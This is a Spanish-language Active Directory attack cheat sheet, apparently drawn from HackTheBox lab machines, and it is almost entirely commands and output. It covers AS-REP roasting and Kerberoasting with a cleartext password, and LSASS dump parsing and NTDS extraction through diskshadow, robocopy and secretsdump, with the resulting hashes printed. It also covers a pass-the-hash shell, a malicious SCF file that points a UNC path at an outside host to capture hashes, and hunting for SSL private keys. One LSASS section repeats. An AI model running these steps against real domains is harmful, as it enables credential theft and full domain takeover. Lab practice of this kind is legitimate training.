 # Metodología

## ASPRepRoast Attack
```null
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS
```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System
```null
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

#### Creación de unidad lógica temporal

**Fichero.txt**
```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

#### Procesación con DiskShadow
```null
diskshadow /s fichero.txt
```

#### Copia de RoboCopy
```null
robocopy /b z:\windows\ntds . ntds.bak
```

#### Dumpeo hashes NT,LM
```null
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

### PassTheHash

```null
wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator

C:\>
```

### Kerberoasting Attack

```null
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request
```

## SCF Malicioso

```null
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

## Microsoft Active Directory Certificate Services

### Generar certificados

```null
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

## Tráfico de Red

### Obtener clave SSL para importar en WireShark

```null
hflaccus@carpediem:/$ find \-name \*key 2>/dev/null | grep backdrop
./etc/ssl/certs/backdrop.carpediem.htb.key
```

```null
hflaccus@carpediem:/etc/ssl/certs$ ls | grep backdrop
backdrop.carpediem.htb.crt
backdrop.carpediem.htb.key
```

## Desencriptar LSASS

```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```